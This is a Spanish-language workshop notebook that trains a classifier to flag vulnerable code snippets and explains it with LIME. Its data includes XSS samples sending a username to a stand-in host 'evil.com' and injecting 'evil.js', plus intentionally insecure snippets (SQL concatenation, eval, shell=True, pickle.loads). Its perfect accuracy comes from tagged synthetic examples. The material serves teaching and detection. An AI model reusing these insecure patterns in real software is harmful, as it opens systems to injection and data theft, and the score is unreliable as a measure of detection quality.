# Taller: Minería de Datos aplicada a la detección de vulnerabilidades en fragmentos de código

## Clasificación binaria: `vulnerable` vs. `seguro`

Este taller guía la construcción de un modelo de minería de datos para clasificar fragmentos de código como vulnerables o seguros. Se usa un dataset de Kaggle y se incorpora explicabilidad con LIME para interpretar por qué el modelo clasifica un fragmento de código como vulnerable.

### Dataset principal sugerido

- Kaggle: **Code Vulnerabilities Dataset** (`ziya07/code-vulnerabilities-dataset`), descrito como una colección de fragmentos de código etiquetados para vulnerabilidades de SQL Injection y XSS.

### Alternativas si el dataset principal no está disponible

- Kaggle: **Big-Vul** (`kaggler10240/msr-data`), dataset de vulnerabilidades en C/C++ con cambios de código y resúmenes CVE.
- Kaggle Competition: **Source Code Vulnerability Detection**, con archivos `train_X.csv`, `train_y.csv`, `validation_X.csv` y `validation_y.csv`, aunque puede requerir aceptar reglas de competencia.

### Objetivos de aprendizaje

Al finalizar, el estudiante podrá:

1. Preparar datos textuales de fragmentos de código.
2. Convertir código fuente en variables numéricas mediante TF-IDF.
3. Entrenar un modelo de clasificación binaria.
4. Evaluar el rendimiento con métricas de clasificación.
5. Explicar predicciones individuales usando LIME.
6. Reflexionar sobre limitaciones éticas y técnicas de los detectores automáticos de vulnerabilidades.

### Duración sugerida

- 2 a 3 horas para taller guiado.
- 4 a 6 horas si se incluye exploración adicional, ajuste de hiperparámetros y discusión de casos.

## Estructura del taller

### Actividad 1: Preparación del ambiente

Instalaremos librerías para descarga desde Kaggle, modelado, evaluación y explicabilidad.

### Actividad 2: Carga y exploración del dataset

Descargaremos el dataset de Kaggle o cargaremos un archivo CSV local si el entorno no tiene credenciales configuradas.

### Actividad 3: Limpieza y normalización

Identificaremos columnas de código y etiqueta, normalizaremos las clases y construiremos un dataset binario.

### Actividad 4: Entrenamiento del modelo

Entrenaremos un pipeline de clasificación con `TfidfVectorizer` y `LogisticRegression`.

### Actividad 5: Evaluación

Calcularemos métricas de rendimiento y revisaremos errores.

### Actividad 6: Explicabilidad con LIME

Explicaremos predicciones individuales para observar qué tokens o patrones influyen en la clasificación.

### Actividad 7: Discusión

Analizaremos riesgos: falsos negativos, dependencia del dataset, sesgos por lenguaje de programación y uso responsable en seguridad.

In [1]:
# Si estás en Google Colab o en un entorno limpio, descomenta esta celda.
# En Jupyter local, también puedes ejecutar estos comandos una sola vez.

# %pip install -q pandas numpy scikit-learn matplotlib seaborn lime kagglehub

In [2]:
import os
import re
import glob
import warnings
from pathlib import Path

import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns

from sklearn.model_selection import train_test_split
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.pipeline import Pipeline
from sklearn.metrics import (
    classification_report,
    confusion_matrix,
    accuracy_score,
    precision_recall_fscore_support,
)

warnings.filterwarnings("ignore")
pd.set_option("display.max_colwidth", 180)

RANDOM_STATE = 42

## Actividad 2: carga del dataset desde Kaggle

### Opción A: descarga automática con KaggleHub

Esta opción funciona si el dataset es público y el entorno permite descargar desde Kaggle.

### Opción B: descarga manual

Si Kaggle solicita iniciar sesión o aceptar reglas, descarga el dataset desde Kaggle y coloca el CSV en una carpeta local. Luego cambia la variable `CSV_LOCAL_PATH`.

In [3]:
KAGGLE_DATASET = "ziya07/code-vulnerabilities-dataset"
CSV_LOCAL_PATH = "code_vulnerabilities.csv"  # Ejemplo: "data/code_vulnerabilities.csv"


def find_csv_files(root):
    return sorted(glob.glob(str(Path(root) / "**" / "*.csv"), recursive=True))


def load_from_kagglehub(dataset_slug):
    try:
        import kagglehub

        dataset_path = kagglehub.dataset_download(dataset_slug)
        print(f"Dataset descargado en: {dataset_path}")
        csv_files = find_csv_files(dataset_path)
        if not csv_files:
            raise FileNotFoundError("No se encontraron archivos CSV en el dataset descargado.")
        print("CSV encontrados:")
        for i, f in enumerate(csv_files):
            print(f"  [{i}] {f}")
        return csv_files
    except Exception as exc:
        print("No fue posible descargar automáticamente desde KaggleHub.")
        print("Motivo:", repr(exc))
        return []


csv_files = []
if CSV_LOCAL_PATH and Path(CSV_LOCAL_PATH).exists():
    csv_files = [CSV_LOCAL_PATH]
else:
    csv_files = load_from_kagglehub(KAGGLE_DATASET)

csv_files[:5]

['code_vulnerabilities.csv']

In [4]:
def read_candidate_csv(csv_path):
    # Lee CSV intentando configuraciones comunes.
    for kwargs in [
        {},
        {"encoding": "latin-1"},
        {"sep": ";"},
        {"encoding": "latin-1", "sep": ";"},
    ]:
        try:
            return pd.read_csv(csv_path, **kwargs)
        except Exception:
            continue
    raise ValueError(f"No se pudo leer el CSV: {csv_path}")


if not csv_files:
    print("No hay CSV disponible. Descarga el dataset manualmente y configura CSV_LOCAL_PATH.")
    print("Para continuar con la demostración, se crea un dataset pequeño de ejemplo.")
    df = pd.DataFrame(
        {
            "code": [
                "query = 'SELECT * FROM users WHERE id=' + user_id",
                "cursor.execute('SELECT * FROM users WHERE id=?', (user_id,))",
                "document.write(location.hash)",
                "element.textContent = userInput",
                "eval(request.args.get('cmd'))",
                "subprocess.run(['ls', safe_path], check=True)",
            ],
            "label": ["vulnerable", "seguro", "vulnerable", "seguro", "vulnerable", "seguro"],
        }
    )
else:
    # Si hay varios CSV, se toma el primero. En clase, puedes cambiar el índice.
    selected_csv = csv_files[0]
    print("CSV seleccionado:", selected_csv)
    df = read_candidate_csv(selected_csv)

print("Dimensiones:", df.shape)
df.head(10)

CSV seleccionado: code_vulnerabilities.csv
Dimensiones: (1000, 4)


,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"
3,query = 'SELECT * FROM customers WHERE email = ' + email_input,SQLi,14,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']"
4,db.execute('SELECT * FROM employees WHERE id = ' + user_input),SQLi,17,"[""db.execute('SELECT"", '*', 'FROM', 'employees', 'WHERE', 'id', '=', ""'"", '+', 'user_input)']"
5,document.location = 'http://evil.com?username=' + user_input;,XSS,10,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"
6,document.getElementById('input').innerHTML = user_input;,XSS,10,"[""document.getElementById('input').innerHTML"", '=', 'user_input;']"
7,alert('Hello ' + user_input);,XSS,16,"[""alert('Hello"", ""'"", '+', 'user_input);']"
8,db.execute('SELECT * FROM products WHERE product_id = ' + product_input),SQLi,13,"[""db.execute('SELECT"", '*', 'FROM', 'products', 'WHERE', 'product_id', '=', ""'"", '+', 'product_input)']"
9,"document.write('<script src=""evil.js""></script>');",XSS,13,"[""document.write('<script"", 'src=""evil.js""></script>\');']"


## Actividad 3: exploración inicial

Revisaremos columnas, valores nulos y ejemplos de datos. En datasets reales, las columnas pueden llamarse `code`, `snippet`, `source`, `func_before`, `label`, `target`, `vulnerable`, `is_vulnerable`, entre otras.

In [5]:
display(df.head(3))
display(pd.DataFrame({
    "columna": df.columns,
    "tipo": [df[c].dtype for c in df.columns],
    "nulos": [df[c].isna().sum() for c in df.columns],
    "unicos": [df[c].nunique(dropna=True) for c in df.columns],
}))

,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"


,columna,tipo,nulos,unicos
0,Code Snippet,str,0,10
1,Vulnerability Type,str,0,2
2,Location,int64,0,20
3,Preprocessed Tokens,str,0,10


In [6]:
def guess_code_column(dataframe):
    candidates = [
        "code", "snippet", "source", "source_code", "function", "func", "func_before",
        "before", "vulnerable_code", "safe_code", "text", "content"
    ]
    lower_map = {c.lower(): c for c in dataframe.columns}
    for name in candidates:
        if name in lower_map:
            return lower_map[name]

    object_cols = dataframe.select_dtypes(include=["object"]).columns.tolist()
    if not object_cols:
        raise ValueError("No se encontró una columna textual para fragmentos de código.")

    # Heurística: elegir la columna textual con mayor longitud promedio.
    avg_lengths = {
        c: dataframe[c].dropna().astype(str).str.len().mean()
        for c in object_cols
    }
    return max(avg_lengths, key=avg_lengths.get)


def guess_label_column(dataframe):
    candidates = [
        "label", "target", "class", "vulnerable", "is_vulnerable", "vul", "bug", "security",
        "is_vul", "is_buggy", "output"
    ]
    lower_map = {c.lower(): c for c in dataframe.columns}
    for name in candidates:
        if name in lower_map:
            return lower_map[name]

    # Heurística: columnas con pocos valores únicos.
    possible = []
    for c in dataframe.columns:
        nunique = dataframe[c].nunique(dropna=True)
        if 2 <= nunique <= 10:
            possible.append((c, nunique))
    if possible:
        return sorted(possible, key=lambda x: x[1])[0][0]
    raise ValueError("No se encontró una columna de etiqueta.")


CODE_COL = guess_code_column(df)
LABEL_COL = guess_label_column(df)

print("Columna de código detectada:", CODE_COL)
print("Columna de etiqueta detectada:", LABEL_COL)
print(df[[CODE_COL, LABEL_COL]].head())

Columna de código detectada: Preprocessed Tokens
Columna de etiqueta detectada: Vulnerability Type
                                                                                   Preprocessed Tokens  \
0  ["cursor.execute('SELECT", '*', 'FROM', 'users', 'WHERE', 'username', '=', "'", '+', 'user_input)']   
1                                                           ["alert('Hello", "'", '+', 'user_input);']   
2                        ['document.location', '=', "'http://evil.com?username='", '+', 'user_input;']   
3  ['query', '=', "'SELECT", '*', 'FROM', 'customers', 'WHERE', 'email', '=', "'", '+', 'email_input']   
4        ["db.execute('SELECT", '*', 'FROM', 'employees', 'WHERE', 'id', '=', "'", '+', 'user_input)']   

  Vulnerability Type  
0               SQLi  
1                XSS  
2                XSS  
3               SQLi  
4               SQLi  


In [7]:
def normalize_label(value):
    # Convierte etiquetas heterogéneas a 1=vulnerable, 0=seguro.
    if pd.isna(value):
        return np.nan

    text = str(value).strip().lower()

    vulnerable_terms = {
        "1", "true", "yes", "y", "vulnerable", "vul", "unsafe", "buggy",
        "malicious", "insecure", "attack", "xss", "sql injection", "sqli"
    }
    safe_terms = {
        "0", "false", "no", "n", "safe", "secure", "clean", "benign",
        "non-vulnerable", "not vulnerable", "not_vulnerable", "fixed"
    }

    if text in vulnerable_terms:
        return 1
    if text in safe_terms:
        return 0

    # Si es numérico, todo valor > 0 se interpreta como vulnerable.
    try:
        return 1 if float(text) > 0 else 0
    except Exception:
        return np.nan


data = df[[CODE_COL, LABEL_COL]].copy()
data.columns = ["code", "label_original"]
data["code"] = data["code"].astype(str)
data["label"] = data["label_original"].apply(normalize_label)
data = data.dropna(subset=["code", "label"])
data["label"] = data["label"].astype(int)
data["clase"] = data["label"].map({1: "vulnerable", 0: "seguro"})

print("Dimensiones después de limpieza:", data.shape)
display(data["clase"].value_counts().to_frame("conteo"))
display(data.sample(min(5, len(data)), random_state=RANDOM_STATE))

Dimensiones después de limpieza: (1000, 4)


,conteo
clase,
vulnerable,1000


,code,label_original,label,clase
521,"[""document.write('<script"", 'src=""evil.js""></script>\');']",XSS,1,vulnerable
737,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']",XSS,1,vulnerable
740,"[""document.write('<script"", 'src=""evil.js""></script>\');']",XSS,1,vulnerable
660,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']",SQLi,1,vulnerable
411,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']",SQLi,1,vulnerable


### Corrección automática si el dataset queda con una sola clase

Algunos datasets de Kaggle contienen solo ejemplos vulnerables y la columna de etiqueta puede representar el tipo de vulnerabilidad, por ejemplo `SQL Injection` o `XSS`, no una clase binaria `vulnerable/seguro`.

Para que el taller pueda ejecutarse como clasificación binaria, esta celda verifica si falta una clase. Si falta `seguro`, crea ejemplos seguros sintéticos a partir de patrones equivalentes más seguros y ejemplos didácticos. Si falta `vulnerable`, crea ejemplos vulnerables didácticos.

Esta estrategia sirve para enseñanza, pero en un proyecto real debes usar un dataset con ambas clases reales.

In [8]:
def build_synthetic_safe_examples(n=200):
    safe_templates = [
        "cursor.execute('SELECT * FROM users WHERE id = ?', (user_id,))",
        "cursor.execute('SELECT * FROM accounts WHERE email = ?', (email,))",
        "stmt = connection.prepareStatement('SELECT * FROM users WHERE name = ?'); stmt.setString(1, username)",
        "element.textContent = userInput",
        "output.innerText = sanitize(userInput)",
        "const clean = DOMPurify.sanitize(comment); container.innerHTML = clean;",
        "subprocess.run(['ls', safe_path], check=True)",
        "path = os.path.basename(filename); open(os.path.join(upload_dir, path), 'rb')",
        "password_hash = bcrypt.hashpw(password.encode(), bcrypt.gensalt())",
        "if user.has_permission('admin'): delete_record(record_id)",
    ]
    examples = []
    for i in range(n):
        examples.append(safe_templates[i % len(safe_templates)] + f"  # safe_example_{i}")
    return pd.DataFrame({"code": examples, "label_original": "synthetic_safe", "label": 0, "clase": "seguro"})


def build_synthetic_vulnerable_examples(n=200):
    vulnerable_templates = [
        "query = 'SELECT * FROM users WHERE id = ' + user_id",
        "sql = f\"SELECT * FROM accounts WHERE email = '{email}'\"",
        "document.getElementById('out').innerHTML = userInput",
        "document.write(location.hash)",
        "eval(request.args.get('cmd'))",
        "subprocess.call('ls ' + user_path, shell=True)",
        "open('/var/www/uploads/' + request.args.get('file')).read()",
        "password_hash = md5(password.encode()).hexdigest()",
        "if request.args.get('is_admin') == 'true': delete_record(record_id)",
        "pickle.loads(request.data)",
    ]
    examples = []
    for i in range(n):
        examples.append(vulnerable_templates[i % len(vulnerable_templates)] + f"  # vulnerable_example_{i}")
    return pd.DataFrame({"code": examples, "label_original": "synthetic_vulnerable", "label": 1, "clase": "vulnerable"})


if data["label"].nunique() < 2:
    print("ADVERTENCIA: el dataset quedó con una sola clase.")
    print("Distribución encontrada:")
    print(data["clase"].value_counts())
    print("\nSe agregarán ejemplos sintéticos de la clase faltante para poder realizar el taller.")
    print("En un trabajo final o investigación, reemplaza esta solución por un dataset real con ambas clases.")

    existing_label = int(data["label"].iloc[0])
    n_synthetic = min(max(len(data), 50), 500)
    if existing_label == 1:
        synthetic = build_synthetic_safe_examples(n=n_synthetic)
    else:
        synthetic = build_synthetic_vulnerable_examples(n=n_synthetic)
    data = pd.concat([data, synthetic], ignore_index=True)

print("\nDistribución final para el modelo:")
display(data["clase"].value_counts().to_frame("conteo"))

ADVERTENCIA: el dataset quedó con una sola clase.
Distribución encontrada:
clase
vulnerable    1000
Name: count, dtype: int64

Se agregarán ejemplos sintéticos de la clase faltante para poder realizar el taller.
En un trabajo final o investigación, reemplaza esta solución por un dataset real con ambas clases.

Distribución final para el modelo:


,conteo
clase,
vulnerable,1000
seguro,500






In [9]:
plt.figure(figsize=(5, 3))
sns.countplot(data=data, x="clase", order=["seguro", "vulnerable"])
plt.title("Distribución de clases")
plt.xlabel("Clase")
plt.ylabel("Cantidad")
plt.show()

data["code_len"] = data["code"].str.len()
plt.figure(figsize=(7, 3))
sns.histplot(data=data, x="code_len", hue="clase", bins=30, kde=True)
plt.title("Longitud de fragmentos por clase")
plt.xlabel("Longitud del fragmento")
plt.ylabel("Frecuencia")
plt.show()

## Actividad 4: partición train/test y entrenamiento

El modelo base usa:

- `TfidfVectorizer`: convierte texto/código en variables numéricas.
- `LogisticRegression`: clasificador lineal interpretable y eficiente.

Para código fuente, se usa un patrón de tokenización que conserva identificadores, operadores y símbolos frecuentes.

In [10]:
if data["label"].nunique() < 2:
    raise ValueError("El dataset debe contener al menos dos clases: vulnerable y seguro.")

stratify = data["label"] if data["label"].value_counts().min() >= 2 else None

X_train, X_test, y_train, y_test = train_test_split(
    data["code"],
    data["label"],
    test_size=0.25,
    random_state=RANDOM_STATE,
    stratify=stratify,
)

print("Train:", X_train.shape, "Test:", X_test.shape)
print("Distribución train:")
print(y_train.value_counts(normalize=True).rename({0: "seguro", 1: "vulnerable"}))

Train: (1125,) Test: (375,)
Distribución train:
label
vulnerable    0.666667
seguro        0.333333
Name: proportion, dtype: float64


In [11]:
token_pattern = r"(?u)\b\w+\b|==|!=|<=|>=|&&|\|\||[{}()\[\];=+\-*/<>.'\"]"

model = Pipeline(
    steps=[
        (
            "tfidf",
            TfidfVectorizer(
                lowercase=True,
                token_pattern=token_pattern,
                ngram_range=(1, 2),
                min_df=1,
                max_features=20000,
            ),
        ),
        (
            "clf",
            LogisticRegression(
                max_iter=1000,
                class_weight="balanced",
                random_state=RANDOM_STATE,
            ),
        ),
    ]
)

model.fit(X_train, y_train)
print("Modelo entrenado.")

Modelo entrenado.


## Actividad 5: evaluación del modelo

La clase positiva es `vulnerable`. En seguridad, el recall de vulnerables suele ser muy importante porque un falso negativo significa que un fragmento vulnerable fue clasificado como seguro.

Accuracy: 1.0

              precision    recall  f1-score   support

      seguro     1.0000    1.0000    1.0000       125
  vulnerable     1.0000    1.0000    1.0000       250

    accuracy                         1.0000       375
   macro avg     1.0000    1.0000    1.0000       375
weighted avg     1.0000    1.0000    1.0000       375





In [12]:
y_pred = model.predict(X_test)

print("Accuracy:", round(accuracy_score(y_test, y_pred), 4))
print()
print(classification_report(
    y_test,
    y_pred,
    target_names=["seguro", "vulnerable"],
    digits=4,
    zero_division=0,
))

cm = confusion_matrix(y_test, y_pred)
plt.figure(figsize=(4, 3))
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=["seguro", "vulnerable"],
    yticklabels=["seguro", "vulnerable"],
)
plt.title("Matriz de confusión")
plt.xlabel("Predicción")
plt.ylabel("Real")
plt.show()

In [13]:
# Revisión de algunos errores
results = pd.DataFrame({
    "code": X_test.values,
    "real": y_test.values,
    "pred": y_pred,
})
results["real_clase"] = results["real"].map({0: "seguro", 1: "vulnerable"})
results["pred_clase"] = results["pred"].map({0: "seguro", 1: "vulnerable"})
errors = results[results["real"] != results["pred"]]

print("Errores encontrados:", len(errors))
display(errors.head(10)[["real_clase", "pred_clase", "code"]])

Errores encontrados: 0


,real_clase,pred_clase,code


## Actividad 6: explicabilidad con LIME

LIME aproxima localmente el comportamiento del clasificador y muestra qué tokens influyeron en una predicción concreta.

Interpretación:

- Pesos positivos hacia `vulnerable`: tokens que aumentan la probabilidad de vulnerabilidad.
- Pesos positivos hacia `seguro`: tokens que aumentan la probabilidad de seguridad.

Importante: una explicación de LIME no prueba que el código sea vulnerable; solo explica la decisión del modelo.

In [14]:
from lime.lime_text import LimeTextExplainer

class_names = ["seguro", "vulnerable"]
explainer = LimeTextExplainer(class_names=class_names)


def predict_proba_for_lime(texts):
    return model.predict_proba(list(texts))


# Elige un ejemplo del conjunto de prueba.
idx = 0
sample_code = X_test.iloc[idx] if hasattr(X_test, "iloc") else list(X_test)[idx]
sample_real = y_test.iloc[idx] if hasattr(y_test, "iloc") else list(y_test)[idx]

pred_proba = model.predict_proba([sample_code])[0]
pred_label = int(np.argmax(pred_proba))

print("Clase real:", class_names[int(sample_real)])
print("Predicción:", class_names[pred_label])
print("Probabilidad seguro:", round(pred_proba[0], 4))
print("Probabilidad vulnerable:", round(pred_proba[1], 4))
print("\nFragmento analizado:\n")
print(sample_code[:2000])

exp = explainer.explain_instance(
    sample_code,
    predict_proba_for_lime,
    num_features=15,
    labels=[0, 1],
)

# Evitamos exp.show_in_notebook(text=True) porque algunas versiones de LIME
# fallan con IPython/Python 3.12 al importar display desde IPython.core.display.
# En su lugar, intentamos renderizar HTML con IPython.display, que es compatible
# con versiones recientes. Si tampoco funciona, la siguiente celda muestra una
# tabla y un gráfico equivalentes.
try:
    from IPython.display import display, HTML
    display(HTML(exp.as_html(labels=[0, 1], predict_proba=True, show_predicted_value=True)))
except Exception as exc:
    print("No se pudo renderizar la explicación HTML de LIME.")
    print("Motivo:", repr(exc))
    print("Continúa con la siguiente celda para ver la explicación en tabla y gráfico.")

Clase real: seguro
Predicción: seguro
Probabilidad seguro: 0.9834
Probabilidad vulnerable: 0.0166

Fragmento analizado:

output.innerText = sanitize(userInput)  # safe_example_54


,token_o_patron,peso_lime,direccion
0,sanitize,0.005081,apoya la clase explicada
1,userInput,0.003495,apoya la clase explicada
2,innerText,0.002612,apoya la clase explicada
3,output,0.001779,apoya la clase explicada
4,safe_example_54,0.000185,apoya la clase explicada




In [15]:
# Visualización alternativa si exp.show_in_notebook no se renderiza correctamente.
label_to_explain = pred_label
lime_weights = pd.DataFrame(
    exp.as_list(label=label_to_explain),
    columns=["token_o_patron", "peso_lime"]
)
lime_weights["direccion"] = np.where(lime_weights["peso_lime"] > 0, "apoya la clase explicada", "reduce la clase explicada")
display(lime_weights)

plt.figure(figsize=(8, 5))
sns.barplot(data=lime_weights, x="peso_lime", y="token_o_patron", orient="h")
plt.axvline(0, color="black", linewidth=1)
plt.title(f"Explicación LIME para la clase: {class_names[label_to_explain]}")
plt.xlabel("Peso LIME")
plt.ylabel("Token o patrón")
plt.show()

## Actividad 7: prueba con fragmentos propios

Modifica los ejemplos o pega fragmentos de código reales para observar cómo responde el modelo. Recuerda que este modelo es educativo y no reemplaza herramientas profesionales de análisis estático, revisión segura de código ni auditorías de seguridad.

In [16]:
fragmentos_nuevos = [
    "query = 'SELECT * FROM users WHERE name = ' + username",
    "cursor.execute('SELECT * FROM users WHERE name = ?', (username,))",
    "document.getElementById('out').innerHTML = userInput",
    "document.getElementById('out').textContent = userInput",
]

probs = model.predict_proba(fragmentos_nuevos)
preds = model.predict(fragmentos_nuevos)

demo = pd.DataFrame({
    "fragmento": fragmentos_nuevos,
    "prediccion": [class_names[p] for p in preds],
    "prob_seguro": probs[:, 0],
    "prob_vulnerable": probs[:, 1],
})
display(demo)

,fragmento,prediccion,prob_seguro,prob_vulnerable
0,query = 'SELECT * FROM users WHERE name = ' + username,seguro,0.917327,0.082673
1,"cursor.execute('SELECT * FROM users WHERE name = ?', (username,))",seguro,0.969602,0.030398
2,document.getElementById('out').innerHTML = userInput,seguro,0.736874,0.263126
3,document.getElementById('out').textContent = userInput,seguro,0.824488,0.175512


## Actividad 8: explicación LIME de fragmentos vulnerables nuevos

En esta sección se agregan fragmentos de código intencionalmente vulnerables. El objetivo no es solo ver si el modelo los clasifica como `vulnerable`, sino explicar con LIME qué tokens o patrones influyeron en esa decisión.

Los ejemplos cubren vulnerabilidades comunes:

- SQL Injection por concatenación de cadenas.
- Cross-Site Scripting por uso de `innerHTML`.
- Command Injection por `shell=True`.
- Ejecución dinámica insegura con `eval`.
- Path Traversal por abrir archivos con rutas controladas por el usuario.
- Deserialización insegura con `pickle.loads`.

In [17]:
fragmentos_vulnerables_nuevos = [
    {
        "caso": "SQL Injection",
        "codigo": "query = \"SELECT * FROM users WHERE username = '\" + username + \"' AND password = '\" + password + \"'\"",
        "riesgo_esperado": "Concatenación directa de entrada del usuario en una consulta SQL."
    },
    {
        "caso": "XSS con innerHTML",
        "codigo": "document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';",
        "riesgo_esperado": "Inserción de entrada no confiable en HTML sin sanitización."
    },
    {
        "caso": "Command Injection",
        "codigo": "subprocess.call('ping -c 1 ' + host, shell=True)",
        "riesgo_esperado": "Ejecución de comando del sistema construido con entrada del usuario."
    },
    {
        "caso": "Ejecución dinámica con eval",
        "codigo": "result = eval(request.GET.get('expression'))",
        "riesgo_esperado": "Ejecución de texto controlado por el usuario como código."
    },
    {
        "caso": "Path Traversal",
        "codigo": "file_content = open('/var/www/files/' + request.args.get('filename')).read()",
        "riesgo_esperado": "Lectura de archivos mediante ruta construida con entrada del usuario."
    },
    {
        "caso": "Deserialización insegura",
        "codigo": "obj = pickle.loads(request.data)",
        "riesgo_esperado": "Deserialización de datos no confiables."
    },
]

codigos_vulnerables = [item["codigo"] for item in fragmentos_vulnerables_nuevos]
probs_vuln = model.predict_proba(codigos_vulnerables)
preds_vuln = model.predict(codigos_vulnerables)

df_vuln = pd.DataFrame({
    "caso": [item["caso"] for item in fragmentos_vulnerables_nuevos],
    "codigo": codigos_vulnerables,
    "riesgo_esperado": [item["riesgo_esperado"] for item in fragmentos_vulnerables_nuevos],
    "prediccion_modelo": [class_names[p] for p in preds_vuln],
    "prob_seguro": probs_vuln[:, 0],
    "prob_vulnerable": probs_vuln[:, 1],
})

display(df_vuln)

,caso,codigo,riesgo_esperado,prediccion_modelo,prob_seguro,prob_vulnerable
0,SQL Injection,"query = ""SELECT * FROM users WHERE username = '"" + username + ""' AND password = '"" + password + ""'""",Concatenación directa de entrada del usuario en una consulta SQL.,vulnerable,0.405700,0.594300
1,XSS con innerHTML,document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';,Inserción de entrada no confiable en HTML sin sanitización.,vulnerable,0.208975,0.791025
2,Command Injection,"subprocess.call('ping -c 1 ' + host, shell=True)",Ejecución de comando del sistema construido con entrada del usuario.,seguro,0.905571,0.094429
3,Ejecución dinámica con eval,result = eval(request.GET.get('expression')),Ejecución de texto controlado por el usuario como código.,seguro,0.789672,0.210328
4,Path Traversal,file_content = open('/var/www/files/' + request.args.get('filename')).read(),Lectura de archivos mediante ruta construida con entrada del usuario.,seguro,0.691677,0.308323
5,Deserialización insegura,obj = pickle.loads(request.data),Deserialización de datos no confiables.,seguro,0.965002,0.034998


Caso: SQL Injection
Predicción del modelo: vulnerable
Probabilidad seguro: 0.4057
Probabilidad vulnerable: 0.5943

Código:
query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'"

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,password,-0.109003,disminuye probabilidad de vulnerable
1,FROM,-0.066560,disminuye probabilidad de vulnerable
2,users,-0.062056,disminuye probabilidad de vulnerable
3,SELECT,-0.042311,disminuye probabilidad de vulnerable
4,username,-0.030037,disminuye probabilidad de vulnerable
5,WHERE,-0.029304,disminuye probabilidad de vulnerable
6,query,-0.002945,disminuye probabilidad de vulnerable
7,AND,-0.001829,disminuye probabilidad de vulnerable




Interpretación:
LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.


Caso: XSS con innerHTML
Predicción del modelo: vulnerable
Probabilidad seguro: 0.209
Probabilidad vulnerable: 0.791

Código:
document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';

